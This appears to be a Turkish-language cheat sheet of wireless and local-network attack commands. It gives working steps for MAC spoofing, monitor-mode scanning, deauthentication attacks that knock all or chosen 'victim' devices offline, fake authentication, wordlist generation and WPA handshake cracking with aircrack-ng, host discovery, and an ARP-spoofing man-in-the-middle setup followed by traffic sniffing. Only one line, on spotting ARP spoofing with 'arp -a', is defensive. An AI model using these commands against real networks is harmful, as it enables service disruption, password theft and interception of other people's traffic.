 kablasoz ağ arayüzünü kapatır
```
ifconfig wlan0 down
```
kablasoz ağ arayüzünü açar
```
ifconfig wlan0 up
```
mac değişimi (ifconfig ile)
```
ifconfig wlan0 hw ether yeni-mac-adresi
```
random mac adresi değiştirme (maccahnger kurulu değil ise kurun, ağı kullanırken mac adresi değişmez, öncelikle ağdan kopun, bu örnekte wlan0 yani kablosuz ağ için mac değiştirme yapıyoruz)
```
macchanger --random wlan0
```
ağ ayarlarına reset atar (değişen mac eski haline döner)
```
service NetworkManager restart
```


ifconfig e göre farkı wireless ile ilgili bilgi verir 
ve bu bilgiyi daha ayrıntılı verir
```
iwconfig
```

monitor mod nedir ?
```
bağlı olmadığımız ağlar hakkında bilgi alabilmemizi sağlar
```

monitor moda geçmek
```
airmon-ng start wlan0   (wlan0 ağ ismi, sizde farklı ise sizdekini yazaın)
```

managed moda geçmek
```
airmon-ng stop wlan0mon   (ağ adı değişmedi ise mon ekine gerek yok)
```


ağ taraması yapmak
```
airodump-ng wlan0mon (wlan0mon değişebilir ağ adınız ne ise onu kullanın)
```


airodump-ng ile gelen datayı anlamak
```
BSSID nedir: modemin mac adresidir
PWR nedir: negatif sayı büyüdükçe o ağa daha yakınsın
Beacons: 
Data:
CH: modemin hangi kanalda kullanıldığını gösterir
ENC: şifreleme bilgisi
```


seçilmiş ağa ayrıntılı tarama yapmak
```
örenk channel:8
örnek mac: 00:00:00:11:00:00:00
airodump-ng --channel 8 --bssid 00:00:00:11:00:00:00 --write airodumptest wlan0mon

"--write dosyaadi" bu paramtereyi işlem sonucunu kaydetmek
istediğimizde kullanırız. kullanımı opsiyoneldir
```


yetkisizlendirme saldırısı
```
bütün cihazları ağdan düşür;
örnek paket sayısı: 10000
örnek mac: 00:00:00:11:00:00:00
aireplay-ng --deauth 10000 -a 00:00:00:11:00:00:00 wlan0mon

belli bir cihazı ağdan düşür;
örnek paket sayısı: 10000
örnek kurban mac: 00:00:A9:11:9B:00:00
aireplay-ng --deauth 10000 -a 00:00:00:11:00:00:00 -c 00:00:A9:11:9B:00:00 wlan0mon

```


fake wireless bağlantısı
```6
paket sayısı :0
örnek modem mac: 00:00:00:11:00:00:00
örnek sahte bağlantı cihazı mac adresi: 00:C0:CA:92:8F:6E
örnek modem mac
aireplay-ng --fakeauth 0 -a 00:00:00:11:00:00:00 -h 00:C0:CA:92:8F:6E wlan0mon
```


crunch ile 8,9 hane arası  wordlist
```
crunch 8 9 gzuor672 -o testWordList.txt
```


aircrack ile word list kullanımı
```
aircrack-ng handshake-cap-dosyası -w wordlist-dosyası
```


bağlı olduğumuz ağdaki cihazları bulma
```
bağlanma yöntemi örnek: eth0
örnek ip: 10.0.2.4
örnek broadcast: 24
örnek paket sayısı: 10
netdiscover -i eth0 -r 10.0.2.4/24 -c 10
```


bağlı olduğumuz ağdaki cihazları bulma (nmap ile)
```
nmap 10.0.2.1/24
```

ortadaki adam saldırısı
```
başlamadan önce:

echo 1 > /proc/sys/net/ipv4/ip_forward
komutu ile arp servisini başlatmak gerekir. default olarak
bu dosya içinde 0 yazar. bu komut veya bir editör ile 
bunu 1 yapmak gerekir. linux her açıldığında 1 yapılması 
gerekir.

arp protokolü ile kendimizi modem olarak göstermek

arpspoof -i eth0 -t kurban-ip modem-ip
veya
arpspoof -i eth0 -t modem-ip kurban-ip

bu komuttan sonra hedef cihazın trafiği bizim üzerimizden geçecek
ve biz modem olarak algılanacağız
windowsta arp -a komuutunu çalıştır. 
modemin mac adresi iki ayrı ip tarafından kullanılıyor ise 
saldırı altındasınız demektir.

bundan sonra wireshrak ile dinleme yapmaya başlayabiliriz
```

ağdan kopmadan mac değiştirme
```
ip addr -> ip adresini falan fisman verir

ip link set dev <device> down
ip link set dev <device> address <new mac address>
ip link set dev <device> up
```